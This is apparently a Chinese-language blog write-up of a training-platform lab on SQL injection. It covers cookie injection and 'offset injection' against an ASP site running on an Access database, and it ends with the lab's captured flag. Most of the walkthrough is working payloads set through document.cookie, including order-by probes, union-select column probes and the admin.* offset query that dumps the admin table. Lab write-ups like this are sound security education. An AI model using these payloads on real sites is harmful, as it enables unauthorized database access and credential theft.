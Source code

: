 ```yaml
---
date: "2020-12-17T00:00:00Z"
description: some word here
keywords: SQL注入
tags:
- SQL注入
- 安全
title: SQL注入-偏移注入
---
```


# 偏移注入

cookie 注入是类似于 POST 或者 GET 传参方式的一种。在 post 或 get 传入参数被反制的时候，可以尝试使用 cookie 注入。

常见的修改 cookie 值的方式有以下几种

1. 浏览器，开发者工具 ，console 控制台。
	+ `documents.cookie="id=171"`
	+ `documents.cookie="id="+escape("171 order by 11")` 。 其中 `escape` 为 js 函数， 作用是进行 url 编码。
2. 浏览器插件
3. burpsuite 抓包修改


# access 数据库

1. access 本身没有库的概念， 更像是 **表的集合**
2. access 本身没有系统自带库， 不能像 mysql 那样通过 information_schema 查询用户信息。 因此大多情况下只能通过爆破手段获取信息。


## 靶场

> https://hack.zkaq.cn/battle/target?id=bd45ae05e752d860


### 探测注入

```
http://59.63.200.79:8004/shownews.asp?id=171 and 1=2
```

![](https://nc0.cdn.zkaq.cn/md/8461/4722d484f7e75251b91aab6d356381bc_60560.png)

通过报错可以确认， 网站做了一定反制， 禁止了常用的注入字段。

### 测试 cookie

使用浏览器开发者工具，尝试 cookie 注入

```bash
# 1. 删除地址栏中的 id 参数， 转而使用 cookie 传入
http://59.63.200.79:8004/shownews.asp

## console
document.cookie="id=171"
```

![](https://nc0.cdn.zkaq.cn/md/8461/d32a58feb653f16fc7c5e97bae600ef3_62109.png)

页面显示正常， 存在 cookie 注入可能性

**探测显示点**

```
# console
document.cookie="id="+escape("171 and 1=2 union select 1,2,3,4,5,6,7,8,9,10 from admin")
```

![](https://nc0.cdn.zkaq.cn/md/8461/6226b8ae26b7b23b0bc2efbdded1b745_34016.png)

显示点为 `2,3`

使用以下联合查询，发现无法实现偏移注入。 

```sql
union select *,1,2,3,4 from admin
```

> 判断： admin 的字段大于 10 ，所以无法 union 实现。

本则， 开发逻辑是相同的原则， 尝试其他页面是否可以注入， 在

**产品展示页面**， 字段数有 26个。

http://59.63.200.79:8004/ProductShow.asp

```
document.cookie="id="+escape("105 order by 26")
```

**寻找显示点**

```bash
document.cookie="id="+escape("105 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26 from admin")
```

结果为 3，5，7
![](https://nc0.cdn.zkaq.cn/md/8461/e8169801dd589d514bd2088039f627ea_24869.png)

探测 admin 表字段数

```bash
document.cookie="id="+escape("105 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,* from admin")
```

成功，表示 admin 有16个字段。


通过 三次偏移 (`select *`, `select 1,`, `select 1,2,*`)  得到计数如下。

![](https://nc0.cdn.zkaq.cn/md/8461/c8f140c556d0e1fc936d2f934fc61eb5_52580.png)

这些连续的数字也像是16进制编码。

#### 分析网站远吗

通过对比发现， 除了 3，5，7 有变化之外， 显示的图片也出错了。

![](https://nc0.cdn.zkaq.cn/md/8461/262656d2fa2322e923a610ea0dc189d3_96412.png)

或许，这里也是一个注入点。

重新构造token， 方便搜索

```
document.cookie="id="+escape("105 and 1=2 union select 10001,10002,10003,10004,10005,10006,10007,10008,10009,100010,100011,100012,100013,100014,100015,100016,100017,100018,100019,100020,100021,100022,100023,100024,100025,100026 from admin")
```

**查看网页源代码**

```html
 <a href="100025" target="_blank"><img src=100025 width="450" height="350" border="0" style="BORDER-LEFT-COLOR: #cccccc; BORDER-BOTTOM-COLOR: #cccccc; BORDER-TOP-COLOR: #cccccc; BORDER-RIGHT-COLOR: #cccccc" ></a>
```

![](https://nc0.cdn.zkaq.cn/md/8461/c98f82089563ebbdd2dff7108017bfd8_41835.png)

发现原本图片问题，本应该是 URL 的地方也是注入点。并且位置偏后


> 浪费了大把时间猜测

**sql语句要写  `admin.*` 才有结果**， 语法结构和 mysql 还有出入。


```
document.cookie="id="+escape("105 and 1=2 union select 1,2,3,4,5,6,7,8,9,admin.*,23 from admin")
```

```html
<a href="
	zkaq{f0e12dafb6}
" target="_blank"><img src=zkaq{f0e12dafb6} width="450" height="350" border="0" style="BORDER-LEFT-COLOR: #cccccc; BORDER-BOTTOM-COLOR: #cccccc; BORDER-TOP-COLOR: #cccccc; BORDER-RIGHT-COLOR: #cccccc" ></a>

```
